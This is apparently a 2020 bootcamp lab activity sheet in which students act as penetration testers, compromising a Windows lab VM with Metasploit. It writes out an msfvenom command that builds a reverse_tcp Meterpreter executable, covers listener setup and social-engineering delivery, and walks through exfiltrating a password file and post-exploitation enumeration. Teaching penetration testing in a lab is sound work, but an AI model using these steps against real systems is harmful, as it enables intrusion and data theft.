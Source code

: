 ## Activity File: Meterpreter Shells

In this activity, you will play the role of an independent penetration tester.

- You've been hired by Unhackable Inc. to perform a no view test against one of the company's servers to determine if the existing security controls are adequate.

- Your goal is to hack into Unhackable, Inc.'s web server and do the following: 
  - Search the remote filesystem for JPG files.
  - Search for the `password.txt` file and exfiltrate it to your local machine.

- As a bonus, the company has also asked that you:
  - Enumerate share running on the breached machine.
  - Check if the remote machine is running inside of a VM.
  - List all users on the breached machine.

You will be using the following machines: 

- Attacking machine: Kali Linux
   - Username: `root`
   - Password: `toor`

- Victim machine: DVW10 
   - Username: `IEuser`
   - Password: `Passw0rd!`

### Instructions

1. In Kali, create an executable payload for the target machine using `msfvenom`. You have been provided a template command to create your exploit.

   Type and run the following command, but remember to update the `LHOST` with the correct IP:

     - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe > hack.exe`

   **Note**: We'll cover custom payloads in the next lesson. For now, just know that this payload will create a malicious `hack.exe` file. 

2. Remember, once the payload is created, the attacker needs to get their payload onto the victim's computer. For this activity, assume that your payload reached the victim's machine via social engineering. 

   In one or two sentences, describe how you might have used social engineering to deliver this payload to the victim machine. 

      
3. In DVW10, verify that `hack.exe` is on the victim machine:

   * Navigate to the Downloads folder on the DVW10 VM and locate the EXE file.

     - Do not click on the file just yet. 

4. Return to Kali and run the commands needed to establish the reverse connection once the file has been executed:
   
   - Launch the MSFconsole in preparation for establishing the reverse connection. Then run the commands that will do the following tasks:

      - Launch MSFconsole.

      - Load the `exploit/multi/handler`.

      - Set the payload to `windows/meterpreter/reverse_tcp`.

      - View the payload's options.

      - Set `LHOST` to the IP of your Kali machine.

      - Set the `LPORT` to `4444` of your Kali machine. 

      - Verify the option settings took effect.

5. Run the exploit.

    - **Note:** If you do not get a Meterpreter shell after a minute or two, go to the DVW10 machine and double-click the `hack.exe` file to restart the listener.
  
    - Long idle times may cause the listener to close the connection. Double-clicking `hack.exe` forces the connection back up.

6. Now we will explore the exploited machine and begin our hunt for the target information.

   - As a warm-up, run the Meterpreter command that searches for files on the remote host.

   - If needed, read the help menu for the `search` command before using it.

     - Run: `search -h` 

7. Let's begin the hunt:

   - Search the remote filesystem for all files ending with `.jpg`.

   - Search the remote filesystem for a file called `password`.
   
   - Exfiltrate this file from the DVW10 VM.
     

#### Bonus

Although security professionals are not expected to be familiar with every module and payload offered in Metasploit and Meterpreter, you will be expected to find the tools you need through online searches. 

Try to complete the following tasks: 

- Find and use a post-exploitation module that enumerates network shares (Windows Gather SMB Share Enumeration via Registry) on the DVW10 machine.

- Find and use a post-exploitation module that checks if the DVW10 computer is running inside a VM.

- Launch a command shell within Meterpreter and perform enumeration that displays user account information on the breached DVW10 computer.

What were the commands that you used? Be prepared to share with the class. 

____

&copy; 2020 Trilogy Education Services, a 2U Inc Brand. All Rights Reserved.
